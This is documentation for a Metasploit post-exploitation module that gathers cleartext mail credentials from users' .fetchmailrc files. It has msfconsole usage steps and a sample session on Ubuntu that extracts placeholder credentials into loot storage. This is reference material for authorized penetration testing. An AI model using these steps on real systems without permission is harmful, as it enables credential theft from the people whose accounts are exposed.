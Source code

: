 ## Vulnerable Application

Post Module to obtain credentials saved for IMAP, POP and other mail
retrieval protocols in fetchmail's `.fetchmailrc`.

This file is kept in user's home directories to configure fetchmail,
but contains cleartext credentials.

### Example fetchmailrc file

Example documentation can be found in the fetchmail handbook:
https://docs.freebsd.org/doc/6.0-RELEASE/usr/share/doc/handbook/mail-fetchmail.html#:~:text=fetchmailrc%20serves%20as%20an%20example,user%20on%20the%20local%20system.

```
echo "poll example.com protocol pop3 username \"joesoap\" password \"XXX\"" > ~/.fetchamilrc
```

## Verification Steps

1. Start msfconsole
1. Get a shell on a system
1. Do: `use post/multi/gather/fetchmailrc_creds`
1. Do: `set session [session]`
1. Do: `run`
1. If any `.fetchmailrc` files exist with credentials, they will be stored and read

## Options

## Scenarios

### Ubuntu 22.04.01

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -l

Active sessions
===============

  Id  Name  Type         Information   Connection
  --  ----  ----         -----------   ----------
  1         shell linux  SSH ubuntu @  2.2.2.2:39857 -> 1.1.1.1:22 (1.1.1.1)

msf6 auxiliary(scanner/ssh/ssh_login) > use post/multi/gather/fetchmailrc_creds
msf6 post(multi/gather/fetchmailrc_creds) > set session 1
session => 1
msf6 post(multi/gather/fetchmailrc_creds) > run

[*] Parsing /home/ubuntu/.fetchmailrc
                
.fetchmailrc credentials
========================

 Username  Password  Server       Protocol  Port
 --------  --------  ------       --------  ----
 joesoap   XXX       example.com  pop3

[*] Credentials stored in: /root/.msf4/loot/20221008102916_default_1.1.1.1_fetchmailrc.cred_476989.txt
[*] Post module execution completed
```
